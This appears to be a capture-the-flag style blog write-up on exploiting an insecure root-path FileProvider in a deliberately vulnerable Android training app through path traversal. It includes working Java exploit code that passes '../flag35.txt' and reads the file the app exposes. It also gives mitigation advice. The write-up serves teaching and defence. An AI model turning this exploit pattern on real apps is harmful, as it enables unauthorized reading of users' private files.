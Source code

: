 ```yaml
---
layout: post
title: Insecure root-path FileProvider Config Leading to Path Traversal Vulnerability
date: 2025-03-14 22:34 +0200
Categories: Mobile
tags: Android Mobile
---
```

Hello, hackers! In this article, I will explain how an insecure `root-path` FileProvider configuration can lead to a path traversal vulnerability, allowing an attacker to access unauthorized files.

Let’s dive into this exciting vulnerability!
## 1. Analyzing the AndroidManifest.xml File
While analyzing the `AndroidManifest.xml` file, I found an interesting `FileProvider` configuration:
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*oUNgkgACiD_BJw49hgkVsQ.png)

With this meta-data code:
```xml
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <root-path
        name="root_files"
        path="/"/>
</paths>
```
This configuration means that the `FileProvider⁣` allows access to any file in the entire filesystem using `getUriForFile()`.
## 2. Identifying the Vulnerable Activity
Next, I found an activity that uses this `FileProvider`. Let’s analyze the code:
```java
 @Override 
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        String stringExtra = getIntent().getStringExtra("filename");
        if (stringExtra != null) {
            prepareFlag(this, stringExtra);
            Uri uriForFile = FileProvider.getUriForFile(this, "io.hextree.root", new File(getFilesDir(), stringExtra));
            Intent intent = new Intent();
            intent.setData(uriForFile);
            intent.addFlags(3);
            setResult(0, intent);
            return;
        }
        Uri uriForFile2 = FileProvider.getUriForFile(this, "io.hextree.root", new File(getFilesDir(), "secret.txt"));
        Intent intent2 = new Intent();
        intent2.setData(uriForFile2);
        intent2.addFlags(3);
        setResult(-1, intent2);
    }

    void prepareFlag(Context context, String str) {
        if (str.contains("flag35.txt") && new File(getFilesDir(), str).exists()) {
            LogHelper logHelper = new LogHelper(context);
            logHelper.addTag("flag35");
            logHelper.addTag("root-provider");
            Utils.writeFile2(this, "flag35.txt", logHelper.appendLog(FLAG));
        }
    }
```
### Key Findings
1. The `FileProvider` allows handling arbitrary paths.
2. The `addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION | Intent.FLAG_GRANT_WRITE_URI_PERMISSION);` grants read/write access.
3. The `filename` parameter is user-controlled, making it vulnerable to path traversal.

## 3. Exploiting the Vulnerability
### Step 1: Inspect Incoming Intent Data
To analyze the incoming intent data, I wrote the following code:
```java
 @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent intent = new Intent();
        intent.setClassName("io.hextree.attacksurface",
                "io.hextree.attacksurface.activities.Flag35Activity");
        startActivityForResult(intent, 42);

    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {
        Utils.showDialog(this, data);
        super.onActivityResult(requestCode, resultCode, data);

    }
```
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*5Q52TllzxfQReL0q4iEN9g.png)

The displayed data indicates that the activity accesses a default file path ended by `secert.txt`. Can we manipulate this to retrieve `flag35.txt`?

### Step 2: Exploiting Path Traversal
Since the `filename` parameter is user-controlled, I attempted to inject `"./flag35.txt"`:
```java
intent.putExtra("filename", "./flag35.txt");
```
and I get this Data URI:
![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*knmnSxx9X11R_c20tmIB1A.png)

so now I used ../ to traverse directories for get one rime back:
```java
intent.putExtra("filename", "../flag35.txt");
```
### Step 3: Final Exploitation Code
The final exploit reads the contents of `flag35.txt`:
```java
@Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent intent = new Intent();
        intent.putExtra("filename", "../flag35.txt");
        intent.setClassName("io.hextree.attacksurface",
                "io.hextree.attacksurface.activities.Flag35Activity");
        startActivityForResult(intent, 42);

    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {
        Log.i("Data", "Uri: "+data.getData());
        try {
            InputStream inputStream = getContentResolver().openInputStream(data.getData());
            BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
            String line;
            while ((line = reader.readLine()) != null){
                Log.d("Kero", " [*] "+line);
            }
        }catch (IOException e) {}
        Utils.showDialog(this, data);
        super.onActivityResult(requestCode, resultCode, data);

    }
```
### Step 4: Retrieving the Flag
The flag is now visible in `logcat` :
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*DwzICIvTYJUDFG80ZPmnaA.png)

## Mitigation
To prevent this vulnerability:
- Avoid using `root-path` in `FileProvider`. Instead, define strict subdirectories.
- Sanitize and validate user input.
- Apply strict permissions to prevent unauthorized access.

## Conclusion
This write-up demonstrated how an insecure `root-path` FileProvider configuration can lead to a path traversal vulnerability, allowing an attacker to access arbitrary files. By understanding and mitigating such misconfigurations, we can build more secure Android applications.

**THANKS FOR READING ❤️**

<script src="https://giscus.app/client.js"
        data-repo="0xk3r0/0xk3r0.github.io"
        data-repo-id="R_kgDOOGw3bQ"
        data-category="General"
        data-category-id="DIC_kwDOOGw3bc4CobRY"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="bottom"
        data-theme="dark"
        data-lang="en"
        crossorigin="anonymous"
        async>
</script>
